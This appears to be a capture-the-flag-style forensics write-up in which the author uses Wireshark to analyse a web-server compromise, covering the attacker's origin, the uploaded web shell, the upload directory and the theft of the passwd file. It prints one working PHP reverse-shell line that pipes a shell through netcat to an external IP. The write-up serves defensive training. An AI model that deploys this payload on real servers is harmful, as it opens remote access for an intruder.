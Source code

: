 ```yaml
---
categories: [DFIR, Network Forensics]
tags: [wireshark, web attacks]
comments: true
---
```


# Web Strike Analysis

## Scenario

An anomaly was discovered within our company’s intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

## Questions

#### 1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

- This is a simple case of Geolocating using IP addresses. In Wireshark, I found the attacker’s IP by going to `Statistics => Conversations => IPv4`. The IP address of the attacker is 117.11.88.128. Plugging this into `ipgeolocation.io`, I get the country of China and the city of **Tianjin**.

![ipgeolocation.io reponse](https://cdn-images-1.medium.com/max/2000/1*G7Itdk1-5CvYizLZpG3r5w.png)_ipgeolocation.io reponse_

#### 2. Knowing the attacker’s user-agent assists in creating robust filtering rules. What’s the attacker’s user agent?

- The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it’s the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`.

#### 3. We need to identify if there were potential vulnerabilities exploited. What’s the name of the malicious web shell uploaded?

- Going to the `Statistics => Protocol Hierarchy`, I immediately saw “Compuserve GIF”

![Wireshark snapshot](https://cdn-images-1.medium.com/max/2000/1*_d772Rdy7xBy4DfDX1wM5w.png)_Wireshark snapshot_

- I remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the upload(2).php file, we can see that a filename of “image.png.php” was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker’s IP address on port 8080. This essentially establishes a reverse shell, allowing the attacker to interact with the compromised server remotely.

- Line of code:

```php
<?php system(“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f”);
```

#### 4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?

- Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, indicating that the malicious script was stored there.

![](https://cdn-images-1.medium.com/max/2000/1*ozG3rBs0jLdF2E9yq-81uw.png)

#### 5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

- This was straightforward, as we already found out from the PHP snippet that the attacker leverages port `8080`.

#### 6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

- Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwdfile, which was the goal of the attacker.

![](https://cdn-images-1.medium.com/max/2000/1*N4pXXpyKflvtigqanP-PJA.png)

#### **Summary**

In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (`upload(2).php`). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the `passwd` file containing passwords for different accounts.

